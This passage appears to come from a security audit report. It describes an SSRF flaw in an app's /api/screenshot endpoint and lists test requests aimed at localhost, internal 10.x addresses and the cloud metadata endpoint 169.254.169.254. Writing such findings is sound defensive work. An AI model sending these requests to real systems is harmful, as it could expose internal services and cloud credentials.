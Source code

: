 ```python
        if response.status_code == 200 and response.content:
            return response.content
        else:
            raise Exception("Error taking screenshot")
```

The code accepts any URL without validation and passes it to the external screenshot service. While the request is made to an external service (screenshotone.com) rather than directly to the target URL, this still constitutes an SSRF vulnerability as the application is making server-side requests to arbitrary URLs provided by users.

### Security test case
1. Set up the application locally with a valid screenshotone.com API key.
2. Send a POST request to the `/api/screenshot` endpoint with a URL pointing to an internal resource:
   ```
   POST /api/screenshot
   {
     "url": "http://localhost:8080/admin",
     "apiKey": "your-api-key"
   }
   ```
3. Also test with URLs to other internal services that might be accessible from the server:
   ```
   POST /api/screenshot
   {
     "url": "http://10.0.0.1:8080",
     "apiKey": "your-api-key"
   }
   ```
4. Test with cloud metadata URLs:
   ```
   POST /api/screenshot
   {
     "url": "http://169.254.169.254/latest/meta-data/",
     "apiKey": "your-api-key"
   }
   ```
5. Set up a test server with a private endpoint and verify that the screenshot service can access it:
   ```
   POST /api/screenshot
   {
     "url": "http://your-private-test-server/sensitive-data",
     "apiKey": "your-api-key"
   }
   ```
6. Verify that the server attempts to capture screenshots of these internal resources.

## 3. Insecure API Key Handling

### Vulnerability name
Insecure API Key Handling
